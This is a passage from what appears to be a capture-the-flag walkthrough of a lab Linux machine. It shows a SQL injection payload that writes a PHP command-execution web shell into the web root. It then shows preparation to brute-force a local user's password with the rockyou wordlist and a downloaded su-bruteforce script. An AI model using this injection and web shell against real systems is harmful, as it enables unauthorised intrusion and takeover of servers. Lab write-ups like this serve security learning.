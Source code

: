 ![](Máquina%20Nexus-5.png)

I decided to get a shell since the target is Linux and is using php: 

```shell
test' union select 1,2,"<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cmd.php" -- -
```

![](Máquina%20Nexus-6.png)

![](Máquina%20Nexus-7.png)

## Privilage escalation

Once in, we can see the existence of shelly user  
```shell
www-data@NexusLabCTF:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Mar 28 16:18 .
drwxr-xr-x 18 root   root   4096 Mar 28 16:10 ..
drwx------  4 shelly shelly 4096 May  8 22:51 shelly
```

We can try to brute for it using `suBF.sh`
```shell
❯ cp /usr/share/wordlists/rockyou.txt .
❯ ls
 n   rockyou.txt   scan1.txt   scan2.txt   shell.sh
❯ wget https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh .
--2025-06-10 15:48:32--  https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2340 (2.3K) [text/plain]
Saving to: ‘suBF.sh’

suBF.sh                     100%[==========================================>]   2.29K  --.-KB/s    in 0.01s   

2025-06-10 15:48:32 (195 KB/s) - ‘suBF.sh’ saved [2340/2340]

Prepended http:// to '.'
--2025-06-10 15:48:32--  http://./
Resolving . (.)... failed: No address associated with hostname.
wget: unable to resolve host address ‘.’
FINISHED --2025-06-10 15:48:32--
Total wall clock time: 0.3s
Downloaded: 1 files, 2.3K in 0.01s (195 KB/s)
```
